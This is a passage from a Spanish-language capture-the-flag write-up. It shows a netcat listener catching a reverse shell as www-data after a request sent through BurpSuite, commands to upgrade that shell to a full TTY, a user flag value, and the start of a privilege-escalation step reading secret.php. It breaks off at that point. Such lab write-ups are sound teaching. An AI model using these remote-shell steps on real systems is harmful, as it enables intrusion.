 ```
```

Antes de enviarlo nos pondremos a la escucha con `nc`.

```shell
nc -lvnp <PORT>
```

Ahora cuando lo enviemos por `BurpSuite` si volvemos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.1.146] from (UNKNOWN) [192.168.1.236] 48638
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Vamos a leer la `flag` del usuario:

> user.txt

```
e4408105ca9c2a5c2714a818c475d06F
```

## Escalate user prakasaka

Si leemos el archivo `secret.php` veremos lo siguiente:

```shell
cd /var/www/html
cat secret.php
```

Info:
